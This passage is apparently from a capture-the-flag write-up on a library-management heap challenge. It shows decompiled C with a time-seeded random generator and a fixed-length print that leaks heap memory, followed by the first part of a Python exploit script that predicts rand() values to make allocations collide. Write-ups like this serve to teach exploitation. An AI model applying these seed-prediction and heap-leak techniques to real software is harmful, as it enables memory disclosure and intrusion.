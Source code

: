 ```c
  seed = time(0LL);
  srand(seed);
```

### Library Name and Motto (memory leak)
At the start of the program, we are asked to set the `name` and `motto` of the Library, which is allocated to the metadata block. We can then later edit the `name` and `motto` through the menu interface after setting it. When editing the library name and motto, the previous metadata block is freed, and a new block is allocated to store the new `name` and `motto`.

This is the only part of the metadata block which saves and stores user input. 

```c
    v8 = print(&output, "[Name & Motto] The following are your chosen name and motto");
    print_new_line(v8, &new_line);
    print(&output, "  [Name]: ");
    for ( i = 0; i <= 15; ++i ) //loops through and prints 16 characters
    {
      v11 = details->name[i];
      print_char(&output, (unsigned int)v11);
    }

    print_new_line(&output, &new_line);

    print(&output, "  [Motto]: ");
    for ( j = 0; j <= 47; ++j ) //loops through and prints 48 characters
    {
      v11 = details->motto[j];
      print_char(&output, (unsigned int)v11);
    }
    print_new_line(&output, &new_line);
```

The above code snippet will loop and print the specified number of characters from the memory block. This is quite unusual as the the printing of characters does not terminate at a null byte. With the way memory is assigned and freed in this program, it might be possible for the printing to leak other stuff in memory that is unintended. 

### Solution script part 1
With the information so far, since we are able to predict the `rand` values, it would be possible for us to leak heap addresses by placing addresses in a block of memory, free it, then reassign the memory to library and motto, so that the addresses will be leaked when the program prints the name and motto back to us.

So the first step here is to generate an array of `rand()` values, and find the first value to be duplicated. 

```py
# try to get same seed as the program
libc.srand(libc.time(0))
predict_rand_arr = []
while True:
    predict_rand_arr.append(libc.rand() % 0x250)
    # keep getting rand values until we have duplicate values
    # so we can get two things to the same place
    if len(predict_rand_arr) > len(set(predict_rand_arr)):
        break

dup_val = predict_rand_arr[-1]

for i in range(len(predict_rand_arr) - 1):
    if predict_rand_arr[i] == dup_val:
        val_idx = i

dup_idx = len(predict_rand_arr) - 1
```